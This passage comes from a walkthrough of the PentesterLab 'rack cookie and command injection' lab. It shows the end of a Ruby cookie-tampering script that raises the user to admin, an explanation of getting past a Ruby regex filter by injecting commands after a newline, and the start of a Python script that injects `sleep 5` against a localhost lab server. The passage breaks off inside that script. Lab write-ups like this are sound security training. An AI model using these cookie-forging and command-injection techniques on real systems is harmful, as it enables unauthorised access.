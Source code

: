 ```ruby
        puts("\nTampered Cookie:\n")
        puts(new_cookie)
    end
    return 0
end

main
```

![tamper-cookie](/assets/images/posts/rcci/tamper-cookie.png)

Using a new cookie we can now elevate ourselves to administrator privileges.

![admin_panel](/assets/images/posts/rcci/admin_panel.png)

## Administrator Panel Probing

It looks like we have three new endpoints we can explore.
`/delete`, `/edit`, and `/new`.

Attempting to create or edit entries with a single-quote causes the
server to respond with an `invalid data provided` error.

![invalid_data](/assets/images/posts/rcci/invalid-data.png)

Likely some sort of regex filter is preventing us from injecting
commands. However a common problem with regex in ruby is that it is
multi-line by default. So, let's try injecting commands after a newline.

The browser isn't properly url-encoding our newline. `\n` results
in a url-encoded backslash followed by an `n` and `%0A` results in a url-encoded `%` followed by `0A`. We'll have to write a script
to run the request properly.

![invalid_data](/assets/images/posts/rcci/url-encoded.png)
![invalid_data](/assets/images/posts/rcci/url-encoded2.png)

Here's our first attempt at to see if there exists a command injection vulnerability. We inject `sleep 5` after a newline in the ip parameter to
get the server to wait 5 seconds before sending us a response. If a delay
occurs then we know we have command injection.

```python
#!/usr/bin/env python3

"""usage: cmd-injection.py <admin-cookie>

Script will attempt to execute a command injection against the
vulnerable site provided in the pentester labs 'rack cookie and
command injection' lab. Requires an authenticated admin cookie
to work properly.
"""

import sys
import requests

URL = 'http://localhost:8000/'

def inject_command(cookie):

    admin_cookie = { 'rack.session' : cookie }

    payload = { 'id'   : '1'
              , 'name' : 'webmail'
```